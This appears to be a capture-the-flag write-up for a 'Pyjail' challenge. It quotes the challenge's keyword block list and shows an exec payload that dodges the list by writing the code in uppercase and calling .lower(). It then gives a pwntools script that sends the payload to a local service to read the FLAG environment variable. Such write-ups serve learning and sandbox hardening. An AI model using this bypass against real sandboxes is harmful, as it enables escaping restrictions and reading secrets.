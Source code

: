 # Pyjail

## Overview
To obtain the flag we need to bypass some checks:
```py
if any(x in user_input for x in ["import", "environ", "getenv", "os", "print", "system", "__", "open", "flag"]):
    print("Blocked!")
    continue
```
This is easy to do since we can use `exec` again, write everything in uppercase, and use the `.lower()` function.
```bash
>>> exec("IMPORT OS; PRINT(OS.ENVIRON".lower() + "['FLAG'])")
```

## Exploit
```py
from pwn import remote, context

context.log_level = 'error'

payload = b"exec(\"IMPORT OS; PRINT(OS.ENVIRON\".lower() + \"['FLAG'])\")"

r = remote("127.0.0.1", 6005)
r.recvuntil(b">>> ")
r.sendline(payload)
flag = r.recvline().decode().strip()
r.close()

print(flag)
```